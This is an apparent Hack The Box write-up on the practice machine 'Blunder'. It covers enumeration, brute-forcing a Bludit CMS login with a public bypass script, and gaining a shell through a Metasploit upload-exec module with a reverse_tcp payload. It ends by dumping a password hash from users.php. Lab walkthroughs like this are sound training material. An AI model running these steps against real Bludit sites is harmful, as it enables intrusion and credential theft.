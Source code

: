 ```yaml
---
layout: single
title: "Hack The Box Write-up #4 : Blunder"
excerpt: "Writeup for Blunder, a machine provided by HacktheBox."
date: 2020-10-17
toc: true
toc_sticky: true
header:
  tagline: "Writeup for Blunder , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  actions:
    - label: "Learn More"
      url: "https://www.hackthebox.eu/home/machines/profile/254"
  teaser: /assets/images/blunder-writeup/blunder.png
  teaser_home_page: true
  
categories:
  - hackthebox
tags:  
  - linux
  - cve
  - bludit-cms
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/blunder.png)

## Summary

Blunder is an easy rated linux machine provided by hackthebox where are mainly represented with some Bludit CMS CVEs.
We use an Authentication Bypass through bruteforcing CVE to login on the admin dashboard. Later on we use yet another CVE (Arbitrary File Upload through images)
to grab a shell on the machine. A newer version of Bludit is configured in the machine where we find a hash for a system user which we crack later.
A sudo misconfiguration easily drops root shell.

## Enumeration
As always I start with a nmap scan to grab the initial information :
### nmap

```
root@kali:/home/suljot# nmap -sC -A 10.10.10.191
Starting Nmap 7.91 ( https://nmap.org ) at 2020-10-17 16:28 CEST
Nmap scan report for 10.10.10.191
Host is up (0.070s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   72.10 ms 10.10.14.1
2   72.03 ms 10.10.10.191
```
Port 21 seems closed so it obviously would be useless for now which leaves port 80 the only vector to gain more information.

### Website

![website](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/blunder-web.png)

Represented with a simple blog webpage which doesnt tell much useful information for the box.

Viewing the source of the webpage reveals things that could be useful : 

```html
<!-- Dynamic title tag -->
<title>Blunder | A blunder of interesting facts</title>

<!-- Dynamic description tag -->
<meta name="description" content="HackTheBox">

<!-- Include Favicon -->
<link rel="shortcut icon" href="http://10.10.10.191/bl-themes/blogx/img/favicon.png" type="image/png">

<!-- Include Bootstrap CSS file bootstrap.css -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

<!-- Include CSS Styles from this theme -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-themes/blogx/css/style.css?version=3.9.2">

<!-- Load Plugins: Site head -->

<!-- Robots plugin -->
</head>
<body>
```

The webpage seems to be running under **Bludit CMS** and the revealed version seems to be **3.9.2**

Upon googling the found information I found an interesting **CVE** under this version of **Bludit** : [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

The above exploit needs at least the username parameter in order to do bruteforcing and yet we dont have any.

### Directory Fuzzing

I decided to start fuzzing the webpage for any possible leftovers or interesting files
![fuzzing](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/directory-bf.png)

After some time I find 2 interesting leads :
- /admin

![admin](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/bl-admin.png)

- /todo.txt

![todo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/todo.png)

## Initial Foothold

I finally have an username (**fergus**) provided from the todo leftover and the login page. This way I can take a look on the exploit now.

### bruteforcing

I firstly created a wordlist using **cewl** based on the blog provided from the port 80 :

```sh
root@kali:~# cewl http://10.10.10.191 -w wordlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:~# ls -la wordlist.txt
-rw-r--r-- 1 root root 2498 Oct 17 16:48 wordlist.txt
```

I then copied the script in the previous blog localy and changed the parameters to my needs :
![exploit](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/exploit.png)

Running the exploit I get some correct credentials after a while :
![bf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/bf.png)

``fergus:RolandDeschain``

Obviously I can use those creds to login on ``/admin`` and access the dashboard :

![dashboard](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/dashboard.png)

While searching for a possible vulnerability previously I also found [CVE-2019-16113](http://cve.circl.lu/cve/CVE-2019-16113)
Another vulnerability (remote command execution) for the **Bludit 3.9.2** version.

I'm going to use metasploit to do that to speed things up, but I recommed doing this one exploit manually as it learned me a few new tricks.

```console
msf5 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
```
### www-data shell
After running the exploit we grab a low-privileged shell to the machine :

![www-data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/metasploit.png)

Using the shell I just grabbed from the exploit I started to look for possible interesting paths on the machine.
There seems to be a newer version of Bludit (**3.10**) already installed on the machine but not yet set up on the blog.
Navigating on it I grabbed a very useful hash from **users.php**

```php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

